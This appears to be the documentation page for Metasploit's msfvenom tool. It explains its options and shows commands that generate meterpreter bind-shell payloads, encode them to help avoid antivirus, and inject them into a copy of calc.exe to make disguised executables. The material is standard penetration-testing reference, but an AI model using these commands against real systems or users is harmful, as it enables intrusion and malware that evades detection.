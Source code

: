 Msfvenom is the combination of payload generation and encoding. It's a replacement for msfpayload and msfencode. It supports the following options:

```
Options:
    -p, --payload    <payload>       Payload to use. Specify a '-' or stdin to use custom payloads
    -l, --list       [module_type]   List a module type example: payloads, encoders, nops, all
    -n, --nopsled    <length>        Prepend a nopsled of [length] size on to the payload
    -f, --format     <format>        Output format (use --help-formats for a list)
    -e, --encoder    [encoder]       The encoder to use
    -a, --arch       <architecture>  The architecture to use
        --platform   <platform>      The platform of the payload
    -s, --space      <length>        The maximum size of the resulting payload
    -b, --bad-chars  <list>          The list of characters to avoid example: '\x00\xff'
    -i, --iterations <count>         The number of times to encode the payload
    -c, --add-code   <path>          Specify an additional win32 shellcode file to include
    -x, --template   <path>          Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --options                    List the payload's standard options
    -v, --var-name <name>            Specify a custom variable name to use for certain output formats
    -h, --help                       Show this message
        --help-formats               List available formats
```

**How to generate a payload**

To generate a payload, you can use the -p flag. You will also most likely use the -f flag (also known as --format) to specify what the output should be. Format can be two things: either you're generating an executable type format, or you are generating a transform type format. The executable type means when you create the payload, the output is meant to be a file. The transform format means this is code, as in you probably copy and paste this to some exploit code you're working on.

The executable format is pretty straight forward, so it needs no further explanation. But there is another flag that's specifically designed for some transform formats, and that is the -v flag (--var-name). This option allows you have a custom variable name in your output, and currently only the following transform formats support --var-name: bash, c, csharp, java, perl, powershell, py, rb, sh, vbapplication, vbscript.

The following is a basic example of how to generate a file:

```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```

The -p flag also supports "-" as a way to accept a custom payload:

```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```

This is an example of setting a custom variable for a Java format output:

```
echo AAAA | ./msfvenom -p - -a x86 --platform windows -v myVar -f java
```

If you'd like to know all the built-in Metasploit payloads available, you can use the -l flag:

```
./msfvenom -l payloads
```



**How to encode a payload**

By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To find out what encoders you can use, you can use the -l flag:

```
./msfvenom -l encoders
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus but understand encoding isn't really meant to be used a real AV evasion solution:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

**How to avoid bad characters**

The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:

```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

**How to supply a custom template**

By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
```

Please note: If you'd like to create a x64 payload with a custom x64 custom template for Winodws, then instead of the exe format, you should use exe-only:

```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.